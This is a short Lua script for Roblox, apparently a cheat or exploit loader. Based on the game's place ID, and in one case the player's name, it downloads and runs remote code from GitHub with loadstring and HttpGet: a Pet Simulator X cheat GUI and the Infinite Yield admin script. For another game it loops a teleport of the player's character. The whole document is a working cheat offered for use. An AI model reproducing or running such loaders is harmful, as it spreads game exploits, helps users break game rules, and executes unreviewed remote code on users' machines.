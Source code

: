 local Player = game.Players.LocalPlayer
local PlaceIdD = game.PlaceId

if PlaceIdD == 6284583030 and Player.Name == "Roblox_Wmh" then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/Jackw1232132/PetSimXGui/main/README.md")()
else
	if PlaceIdD == 5024793931 then
		loadstring(game:HttpGet(('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'),true))()
	else
		if PlaceIdD == 4954752502 then
			while wait() do
				if game.Players.LocalPlayer.PlayerGui.StatusBar.TextLabel.Text == "0:10" then
					game.Players.LocalPlayer.Character:MoveTo(game.Workspace.GlobalLeaderboard.Position)
				end
			end
		end
	end
end
